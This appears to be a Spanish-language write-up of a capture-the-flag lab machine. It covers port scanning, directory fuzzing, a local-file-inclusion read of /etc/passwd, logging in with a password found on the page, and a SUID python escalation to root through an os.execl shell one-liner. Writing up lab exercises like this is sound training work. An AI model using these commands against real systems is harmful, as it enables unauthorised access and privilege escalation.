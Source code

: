 nmap:  22,80

![image](https://github.com/user-attachments/assets/eaad09c8-5a05-446f-96cb-e8c76e63dd4f)

en la pagina como en el nmap, vemos que es apache2, en el código fuente no hay nada, hacemos un gobuster

     gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,py,txt -t 64


y nos da un index.php

![image](https://github.com/user-attachments/assets/31191b22-876a-44d3-8876-3e596b67f795)

![image](https://github.com/user-attachments/assets/6ff70d6f-697d-4666-90f8-355f6bbe8d46)

buscamos eso y da solo en la pagina un "balu"

![image](https://github.com/user-attachments/assets/fed9b04c-c1b9-48ad-a9b4-bf5ad959017d)

probé con hydra pero no obtuve nada. Como la carpeta o directorio que nos dio, podemos probar con ffuf

     ffuf -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

y nos dio un: page

![image](https://github.com/user-attachments/assets/030a13f1-9264-48ee-a294-ac3b02cebad3)

y obtenemos

![image](https://github.com/user-attachments/assets/6b8483b6-54ab-4e9d-a79b-f37136262969)

nos dan dos usuarios: pinguino y mario. probamos a los usuarios con la contraseña "balu"

entramos

![image](https://github.com/user-attachments/assets/6e168484-ed12-487a-b28a-a379ec8e0a4b)

y escalamos a mario muy facil

![image](https://github.com/user-attachments/assets/5e88059d-1d92-4c99-b3f9-d1f2bb135098)

utilizamos el comando

     find / -perm -4000 -ls 2>/dev/null

y nos da un binario importante 

![image](https://github.com/user-attachments/assets/dcda9d1d-36af-4c7b-9321-a1eaa8fdbbd9)

la buscamos en https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/801624b3-5d4e-41b3-9aeb-8e6df74b59f5)

modificamos el python a python3.8 como el binario y lanzamos

     python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

![image](https://github.com/user-attachments/assets/1c611e03-21bb-441c-9bb4-87460a6903b5)

somos root!
